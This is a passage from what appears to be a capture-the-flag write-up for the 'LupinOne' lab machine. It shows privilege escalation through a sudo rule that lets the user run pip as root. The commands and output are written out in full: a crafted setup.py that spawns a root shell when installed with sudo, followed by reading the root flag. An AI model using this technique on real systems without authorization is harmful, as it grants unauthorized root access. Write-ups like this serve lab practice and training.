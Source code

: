 Well, how we can get root? Condiser the `sudo -l`:

```shell
arsene@LupinOne:~$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

The pip application has root privilege, so we can use it:

```shell
arsene@LupinOne:~$ TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Processing /tmp/tmp.e43H2KlJDL
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# cat /root/root.txt
*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,(((((((((((((((((((((,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
,                       .&&&&&&&&&(            /&&&&&&&&&
,                    &&&&&&*                          @&&&&&&
,                *&&&&&                                   &&&&&&
,              &&&&&                                         &&&&&.
,            &&&&                   ./#%@@&#,                   &&&&*
,          &%&&          &&&&&&&&&&&**,**/&&(&&&&&&&&             &&&&
,        &@(&        &&&&&&&&&&&&&&&.....,&&*&&&&&&&&&&             &&&&
,      .& &          &&&&&&&&&&&&&&&      &&.&&&&&&&&&&               &%&
,     @& &           &&&&&&&&&&&&&&&      && &&&&&&&&&&                @&&&
,    &%((            &&&&&&&&&&&&&&&      && &&&&&&&&&&                 #&&&
,   &#/*             &&&&&&&&&&&&&&&      && #&&&&&&&&&(                 (&&&
,  %@ &              &&&&&&&&&&&&&&&      && ,&&&&&&&&&&                  /*&/
,  & &               &&&&&&&&&&&&&&&      &&* &&&&&&&&&&                   & &
, & &                &&&&&&&&&&&&&&&,     &&& &&&&&&&&&&(                   &,@
,.& #                #&&&&&&&&&&&&&&(     &&&.&&&&&&&&&&&                   & &
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&             &(&
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&            & &
*& *              &&&&&&&&&&&&&&&&&&&@.                 &&&&&&&&             @ &
*&              &&&&&&&&&&&&&&&&&&@    &&&&&/          &&&&&&                & &
*% .           &&&&&&&&&&&@&&&&&&&   &  &&(  #&&&&   &&&&.                   % &
*& *            &&&&&&&&&&   /*      @%&%&&&&&&&&    &&&&,                   @ &
*& &               &&&&&&&           & &&&&&&&&&&     @&&&                   & &
*& &                    &&&&&        /   /&&&&         &&&                   & @
*/(,                      &&                            &                   / &.
* & &                     &&&       #             &&&&&&      @             & &.
* .% &                    &&&%&     &    @&&&&&&&&&.   %@&&*               ( @,
/  & %                   .&&&&  &@ @                 &/                    @ &
*   & @                  &&&&&&    &&.               ,                    & &
*    & &               &&&&&&&&&& &    &&&(          &                   & &
,     & %           &&&&&&&&&&&&&&&(       .&&&&&&&  &                  & &
,      & .. &&&&&&&&&&&&&&&&&&&&&&&&&&&&*          &  &                & &
,       #& & &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&        &.             %  &
,         &  , &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.     &&&&          @ &*
,           & ,, &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.  /&&&&&&&&    & &@
,             &  & #&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&@ &. &&
,               && /# /&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&# &&&# &# #&
,                  &&  &( .&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&  &&
/                     ,&&(  &&%   *&&&&&&&&&&%   .&&&  /&&,
,                           &&&&&/...         .#&&&&#

```